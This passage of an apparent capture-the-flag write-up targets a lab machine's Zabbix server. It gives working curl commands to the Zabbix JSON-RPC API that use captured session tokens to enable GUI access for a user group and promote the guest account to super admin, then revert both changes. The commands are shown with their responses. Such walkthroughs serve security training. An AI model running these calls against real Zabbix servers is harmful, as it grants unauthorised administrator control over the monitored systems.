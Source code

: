 ```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"usergroup.update", "id":1, "auth":"a8b49852bf6272f469281dd2c7a3bd91", "params":{"usrgrpid": "12", "gui_access": "0"}}' | jq -c '.'
{"jsonrpc": "2.0","result": {"usrgrpids": ["12"]},"id": 1}

```

Now zapper can log into the GUI, and do everything admin could do above. I can set it back once I’m in:

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"usergroup.update", "id":1, "auth":"a8b49852bf6272f469281dd2c7a3bd91", "params":{"usrgrpid": "12", "gui_access": "2"}}' | jq -c '.'
{"jsonrpc": "2.0","result": {"usrgrpids": ["12"]},"id": 1}

```

#### Add Admin Rights to Guest

When I log in as guest, I only have a limited menu compared to what I could do as zabbix or admin:

![1550626552078](https://0xdfimages.gitlab.io/img/1550626552078.png)

If I look at the properties of a [user object](https://www.zabbix.com/documentation/3.0/manual/api/reference/user/object), one is type:

![1550626438352](https://0xdfimages.gitlab.io/img/1550626438352.png)

So I’ll use the [user.update](https://www.zabbix.com/documentation/3.0/manual/api/reference/user/update) api to change guest to super admin:

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.update", "id":1, "auth":"5e0e2dc84136edbf2a03e1d8c04e95e6", "params":{"userid": "2", "type": "3"}}' | jq -c '.'
{"jsonrpc": "2.0","result": {"userids": ["2"]},"id": 1}

```

Now when I click the link to log in as guest, I’ve got the full site:

![1550626509640](https://0xdfimages.gitlab.io/img/1550626509640.png)

And I can set it back when I’m done:

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.update", "id":1, "auth":"5e0e2dc84136edbf2a03e1d8c04e95e6", "params":{"userid": "2", "type": "1"}}' | jq -c '.'
{"jsonrpc":"2.0","result":{"userids":["2"]},"id":1}

```
